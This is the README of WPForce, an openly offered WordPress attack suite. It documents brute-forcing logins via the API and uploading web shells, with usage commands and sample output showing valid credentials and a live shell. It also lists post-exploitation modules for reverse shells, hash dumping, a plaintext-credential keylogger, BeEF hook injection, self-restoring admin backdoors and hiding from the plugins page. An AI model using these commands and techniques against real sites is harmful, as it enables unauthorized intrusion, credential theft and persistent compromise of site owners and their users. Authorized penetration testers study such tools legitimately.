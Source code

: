![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)
# WPForce - Wordpress Attack Suite 

## ABOUT:
WPForce is a suite of Wordpress Attack tools.  Currently this contains 2 scripts - WPForce, which brute forces logins via the API, and Yertle, which uploads shells once admin credentials have been found.  Yertle also contains a number of post exploitation modules.

For more information, visit the blog post here: 
https://www.n00py.io/2017/03/squeezing-the-juice-out-of-a-compromised-wordpress-server/

Blogs in other languages: 

Chinese -    www.mottoin.com/100381.html 

Portuguese - http://www.100security.com.br/wpforce/ 

Spanish -    http://www.1024megas.com/2017/05/wpforce-fuerzabruta-postexplotacion.html 
             
   https://esgeeks.com/como-hackear-sitio-wordpress-con-wpforce/

Russian -    https://hackware.ru/?p=2547

French -     https://securityhack3r.info/wpforce-brute-force-attack-tool-wordpress/ 

Turkish -    http://turkhackteam.org/web-server-guvenligi/1655005-wordpress-site-sizma-testi-part-1-a.html


## FEATURES:
* Brute Force via API, not login form bypassing some forms of protection
* Can automatically upload an interactive shell
* Can be used to spawn a full featured reverse shell
* Dumps WordPress password hashes
* Can backdoor authentication function for plaintext password collection
* Inject BeEF hook into all pages
* Pivot to meterpreter if needed


## INSTALL:
```
Yertle requires the requests libary to run.
http://docs.python-requests.org/en/master/user/install/
```

## USAGE:
```
python wpforce.py -i usr.txt -w pass.txt -u "http://www.[website].com"

   ,-~~-.___.       __        __ ____   _____
  / |  x     \      \ \      / /|  _ \ |  ___|___   _ __  ___  ___
 (  )        0       \ \ /\ / / | |_) || |_  / _ \ | '__|/ __|/ _ \.
  \_/-, ,----'  ____  \ V  V /  |  __/ |  _|| (_) || |  | (__|  __/
     ====      ||   \_ \_/\_/   |_|    |_|   \___/ |_|   \___|\___|
    /  \-'~;   ||     |
   /  __/~| ...||__/|-"   Brute Force Attack Tool for Wordpress
 =(  _____||________|                 ~n00py~

Username List: usr.txt (3)
Password List: pass.txt (21)
URL: http://www[website].com
--------------------------
[xxxxxxxxxxxxx@gmail.com : xxxxxxxxxxxxx] are valid credentials!  - THIS ACCOUNT IS ADMIN
--------------------------
--------------------------
[xxxxxxxxxxxxx@icloud.com : xxxxxxxxxxxx] are valid credentials!
--------------------------
 100% Percent Complete
All correct pairs:
{'xxxxxxxxxxxxx@icloud.com': 'xxxxxxxxxxxxx', 'xxxxxxxxxxxxx@gmail.com': 'xxxxxxxxxxxxx'}

 -h, --help            show this help message and exit
  -i INPUT, --input INPUT
                        Input file name
  -w WORDLIST, --wordlist WORDLIST
                        Wordlist file name
  -u URL, --url URL     URL of target
  -v, --verbose         Verbose output. Show the attemps as they happen.
  -t THREADS, --threads THREADS
                        Determines the number of threads to be used, default
                        is 10
  -a AGENT, --agent AGENT
                        Determines the user-agent
  -d, --debug           This option is used for determining issues with the
                        script.


python yertle.py -u "[username]" -p "[password]" -t "http://www.[website].com" -i
     _..---.--.    __   __        _   _
   .'\ __|/O.__)   \ \ / /__ _ __| |_| | ___
  /__.' _/ .-'_\    \ V / _ \ '__| __| |/ _ \.
 (____.'.-_\____)    | |  __/ |  | |_| |  __/
  (_/ _)__(_ \_)\_   |_|\___|_|   \__|_|\___|
   (_..)--(.._)'--'         ~n00py~
      Post-exploitation Module for Wordpress

Backdoor uploaded!
Upload Directory: ebwhbas
os-shell>



  -h, --help            show this help message and exit
  -i, --interactive     Interactive command shell
  -r, --reverse         Reverse Shell
  -t TARGET, --target TARGET
                        URL of target
  -u USERNAME, --username USERNAME
                        Admin username
  -p PASSWORD, --password PASSWORD
                        Admin password
  -li IP, --ip IP       Listener IP
  -lp PORT, --port PORT
                        Listener Port
  -v, --verbose         Verbose output.
  -e EXISTING, --existing EXISTING
                        Skips uploading a shell, and connects to existing
                        shell


```

Yertle currently contains these modules:

```
Core Commands
=============
 
Command                   Description
-------                   -----------
?                         Help menu
beef                      Injects a BeEF hook into website
dbcreds                   Prints the database credentials
exit                      Terminate the session
hashdump                  Dumps all WordPress password hashes
help                      Help menu
keylogger                 Patches WordPress core to log plaintext credentials
keylog                    Displays keylog file
meterpreter               Executes a PHP meterpreter stager to connect to metasploit
persist                   Creates an admin account that will re-add itself
quit                      Terminate the session
shell                     Sends a TCP reverse shell to a netcat listener
stealth                   Hides Yertle from the plugins page
```